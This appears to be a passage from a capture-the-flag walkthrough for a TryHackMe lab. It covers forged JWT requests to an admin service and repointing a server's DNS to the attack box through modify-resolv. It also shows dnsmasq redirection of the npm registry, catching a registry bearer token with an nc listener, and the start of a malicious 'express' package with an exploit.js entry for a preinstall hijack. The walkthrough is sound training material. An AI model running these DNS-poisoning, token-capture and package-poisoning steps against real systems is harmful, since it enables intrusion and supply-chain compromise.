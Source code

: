 the admint service updates its jwks every minute so wait a while, then you can make a curl request with the bearer token, e.g.

```bash
curl -X POST -H "Authorization: Bearer eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6Im1jc2tpZHktYWRtIn0.Af1w1hFuK_tfgwGiMxe_fn_hP6qrYXLU2gG_v8PKT0ir26vkO5MTA3bzAghjfwxJfGCoLu4zg5BSCrffISyuzeB47UTNuiZ3zmkIQ9k_CNjjpW8U_UlfNhhBWSHd0zRQ19mrts9ho-JJyLlfCw8jQ-ELvk-cW0lgfup6GtQVAyObKEYtRGNXrg54L76JiCkqqMDoXCwT9G9DVprjdEIcQ-NI7pTK5Gml-YiqPv3nkQdd9cVWYgYOEGOfTEx0Xfn43a8NoFwP6aFRyyrEvx2kOWtOqFwQP64gX2BKAjeoYEGz0gPwFGESfnr0i4JeXyKyKYK-mdoTqw4jDbHjGxaVqA" 172.16.1.2:3000/restart-service
```

if its working the response should be `{"error":"Missing host or serviceName value."}` (if it didn't work it will return 'forbidden' - ensure you have got all the pieces in place correctly.

#### redirection via dns and npm poisoning

at this point setting the auth token as env var can be useful: `export auth="eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6Im1jc2tpZHktYWRtIn0.Af1w1hFuK_tfgwGiMxe_fn_hP6qrYXLU2gG_v8PKT0ir26vkO5MTA3bzAghjfwxJfGCoLu4zg5BSCrffISyuzeB47UTNuiZ3zmkIQ9k_CNjjpW8U_UlfNhhBWSHd0zRQ19mrts9ho-JJyLlfCw8jQ-ELvk-cW0lgfup6GtQVAyObKEYtRGNXrg54L76JiCkqqMDoXCwT9G9DVprjdEIcQ-NI7pTK5Gml-YiqPv3nkQdd9cVWYgYOEGOfTEx0Xfn43a8NoFwP6aFRyyrEvx2kOWtOqFwQP64gX2BKAjeoYEGz0gPwFGESfnr0i4JeXyKyKYK-mdoTqw4jDbHjGxaVqA"`

the three end points each cause the admin service to connect to the target host over ssh, then run commands. modify-resolv for example simply sets the nameserver of server, replacing the content of /etc/resolve.conf. we can run a command like
`curl -X POST -H "Authorization: Bearer $auth" -d "host=172.16.1.3&nameserver=10.10.174.209" 172.16.1.2:3000/modify-resolv`, so 172.16.1.3 uses our attack box as the nameserver (here 10.10.174.209). with dnsmasq or similar we can then redirect requests for urls like the npm registry to where we like.

on the thm attack box, dnsmasq is already installed, so by adding a line like `address=/npm-registry.bestfestivalcompany.thm/10.10.174.209` to `/etc/dnsmasq.conf` and then running `systemctl restart dnsmasq` this can be configured as we need it to be. to confirm, run `dig npm-registry.bestfestivalcompany.thm @127.0.0.1` - it should respond with the ip configured.

> For further intel now, you can view the exact code of the `bfcadmin-remote-manager` package that `admint` is using to power these webservices: this is a private package in the npm-registry, but if on your attack box you run `nc -nvlp 5873` and then trigger a package reinstall via `curl -X POST -H "Authorization: Bearer $auth" -d "host=172.16.1.3&service=bfc_thehubuat" 172.16.1.2:3000/reinstall-node-modules`, you will catch a request with the bearer token the admin service is using at access the registry. with this you can download the info page of the remote manager with: `curl -H "authorization: Bearer OWI1MmY3MzA0MDEyZmVkYTIwMzdjMTZmZDhjZjA1ZmQ6OGJiNjQxM2Y0NDYzZDZiMGRiMWI2NGY2ZjhkOWU2OWJlNTk0M2VkNzg5OTU5NDM2NjkyMDdm" http://172.16.1.2:4873/bfcadmin-remote-manager`, which has the path for the tar ball. This auth token contains encrypted credentials and is otherwise not useful (afaik)

To get onto 172.16.1.2, where admint/admdev and the root.key that they use is located, we want to hijack them via a pre install script. This can be done a few ways, but a simple rag tag way is to jimmy up a malicious package and then host it behind a webserver:

1. create a folder for our 'registry'
2. in that folder, create another folder for our package. the first package looked for is express, so create a folder named express
3. in the express folder, create an index.html file with the following content:

```json
{
  "name": "express",
  "versions": {
    "4.21.2": {
      "name": "express",
      "version": "4.21.2",
      "description": "",
      "main": "exploit.js",
      "author": {
        "name": "crashoverride"
      },
      "_id": "express@4.21.2",
      "_nodeVersion": "20.15.1",
```